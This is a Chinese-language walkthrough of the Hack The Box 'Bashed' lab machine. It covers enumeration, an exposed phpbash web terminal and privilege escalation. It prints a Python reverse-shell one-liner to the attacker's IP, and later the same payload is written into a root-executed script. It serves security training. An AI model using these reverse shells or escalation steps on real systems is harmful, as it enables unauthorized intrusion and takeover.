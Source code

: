 # Bashed

- **bashed是hackthebox上面难度为easy的靶机**

### 信息收集

- 发现开启的端口只有80端口，开启了http服务

![image-20211012124657126](http://cdn.mxrblog.cn/image-20211012124657126.png)

- 打开http://10.10.10.68，查看发现有一个网站

![image-20211012124933106](http://cdn.mxrblog.cn/image-20211012124933106.png)

- 这个网站介绍了工具phpbash的用法

![image-20211012125015175](http://cdn.mxrblog.cn/image-20211012125015175.png)

- 对网站的目录进行检索

- 先使用工具gobuster对网站的目录进行检索

![image-20211012130512392](http://cdn.mxrblog.cn/image-20211012130512392.png)

- 使用dobuster和dirsearch查看这些目录时，发现里面没有什么具有价值的东西

- 在网页上直接进入这些目录，发现http://10.10.10.68/dev/ 下有东西

![image-20211012132012258](http://cdn.mxrblog.cn/image-20211012132012258.png)

- 根据网站的内容介绍，我们可以知道这个phpbash是一个网页版终端，我们点进去，果然有一个终端，在里面搜索，发现了user.txt文件
- 查看内容：

![image-20211012132207011](http://cdn.mxrblog.cn/image-20211012132207011.png)

- 使用python脚本反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- 获取交互式shell

`python -c 'import pty; pty.spawn("/bin/bash")'`

- 使用sudo -l 会发现我们可以使用sudo 命令执行有关scriptmanager用户的命令，于是使用命令

`sudo -i -u scriptmanager`

- 此时我们使用命令`whoami` 会发现我们已经切换好用户了
- 进入/scripts目录，会发现有test.py和test.txt文件，查看权限知道是root权限，但是scriptmanager用户也可以执行，向text.py文件中输入反向shell代码，在kali机器中打开nc监听

`echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > text.py`

- 已经有root权限，并且找到root.txt文件



![image-20211012140758292](http://cdn.mxrblog.cn/image-20211012140758292.png)

